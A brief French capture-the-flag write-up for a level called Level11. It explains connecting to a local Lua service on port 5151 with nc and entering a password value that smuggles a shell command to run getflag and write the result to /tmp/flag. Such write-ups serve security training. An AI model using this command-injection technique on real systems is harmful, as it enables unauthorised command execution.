

# Level11:

**Le script lua tourne sur la session et ecoute sur le port 5151**
**On s'y connect avec la commande suivante**
`nc 127.0.0.1 5151`

**Un prompt apparait nous demandant un mot de passe**
**Il suffit de l'exploit comme suit:**
`"" ; getflag > /tmp/flag ; echo ""`

**Il nous affiche que ca n'a pas fonctionne mais si l'on `cat` le `/tmp/flag` on y trouve le flag**

